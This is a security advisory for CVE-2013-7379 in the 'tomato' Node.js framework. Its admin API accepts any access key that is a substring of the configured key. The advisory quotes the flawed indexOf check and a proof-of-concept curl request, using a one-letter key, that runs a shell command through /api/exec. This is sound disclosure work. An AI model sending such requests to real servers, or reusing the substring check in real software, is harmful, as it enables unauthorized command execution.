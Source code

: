 ```yaml
---
title:  Tomato API Admin Auth Weakness
author:  Adam Baldwin
module_name: tomato
publish_date: 2013-03-07T21:52:30.192Z
cves: "[{\"name\":\"CVE-2013-7379\",\"link\":\"http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-7379\"}]"
vulnerable_versions: "<= 0.0.5"
patched_versions: ">= 0.0.6"
...
```


## Overview:
Tomato is a Node.js web framework.

The tomato API has an admin service that is enabled by setting up an access_key in the config options. This access_key is intended to protect the API admin from unauthorized access.

The key is checked by checking to see if the access_key provided in the request is within the configured access_key string, not equal to. So a single character that's within the access key is sufficient to bypass this control.

### Example:
This is the snippet of code that does the comparison to authorize requests.

```
if (access_key && config.master.api.access_key.indexOf(access_key) !== -1) {
```

For an access_key that is set to anything that includes the letter 'a' the following request would be authorized.

```
$ curl -X POST "http://localhost:8081/api/exec" -H "Content-Type: application/json" -d @test -H "access-key: a"
{
 "cmd": "ls",
 "path": ".",
 "stdout": "app.js\nconfig.js\nlog\nnode_modules\nserver.js\n",
 "stderr": ""
}
```

### Mitigating factors:

The admin interface is disabled by default. The module author confirmed that the access_key should really be an array of access_keys, however based on variable name and documentation it was not clear that it should be an array. The vulnerability exists only if a string access_key is set.

Module version 0.0.6 has been updated to ensure an array of keys is provided as well as documentation updates.



